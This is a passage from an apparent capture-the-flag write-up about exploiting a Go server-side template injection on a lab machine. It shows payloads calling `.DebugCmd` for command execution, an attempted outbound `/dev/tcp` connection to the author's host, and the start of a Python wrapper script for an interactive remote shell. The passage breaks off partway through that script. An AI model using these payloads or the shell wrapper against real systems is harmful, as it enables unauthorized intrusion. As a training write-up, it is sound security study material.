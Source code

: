 #### Execution

In the SSTI above, I used `{{ . }}` to print the current objects passed into the template. I can also reference functions from the code within `{{ }}`. [This post](https://www.calhoun.io/intro-to-templates-p3-functions/) talks about how to reference objects (including functions) from the templating engine using a `.function_name`. Submitting `{{ .DebugCmd "id" }}` returns proof of execution:

![image-20210826132627098](https://0xdfimages.gitlab.io/img/image-20210826132627098.png)

### Connection Fails

I tried a bunch of things to get a connection back to my host, but all failed. First I tried to `ping` my host with `{{ .DebugCmd "ping -c 1 10.10.14.6" }}`, but it returned `/bin/bash: ping: command not found`. I tried giving it full path in `/usr/bin` and others, but no luck. I switched to running `find` commands like `find / -name ping`. `ping`, `wget`, `nc`, `curl`, were all not on the host.

I verified that my syntax would work by searching for `bash`:

![image-20210826133041067](https://0xdfimages.gitlab.io/img/image-20210826133041067.png)

I tried to use `/dev/tcp` to contact my host with `"echo test > /dev/tcp/10.10.14.6/443"`. It just hung the page. My thinking here is that the site is now trying to contact me, but the firewall is blocking outbound. So the site keeps trying until it times out. After a full minute or two:

```

HTTP/1.1 504 Gateway Time-out
Server: nginx
Date: Thu, 26 Aug 2021 17:32:44 GMT
Content-Type: text/html
Content-Length: 160
Connection: close

<html>
<head><title>504 Gateway Time-out</title></head>
<body>
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx</center>
</body>
</html>

```

### Command Script

I’ll write a quick shell to allow me to enumerate the filesystem. [This video](https://www.youtube.com/watch?v=B_NXWx8BuHM) shows the process for that:

Here’s the final script (with a few variable renames):

```

#!/usr/bin/env python3    

import re    
import requests    
from cmd import Cmd    
from html import unescape    

class Term(Cmd):    
    prompt = "gobox> "    
    capture_re = re.compile(r"Email Sent To: (.*?)\s+<button class", re.DOTALL)    

    def default(self, args):    
        """Run given input as command on gobox"""    
        cmd = args.replace('"', '\\"')    
        resp = requests.post('http://10.10.11.113:8080/forgot/',    
```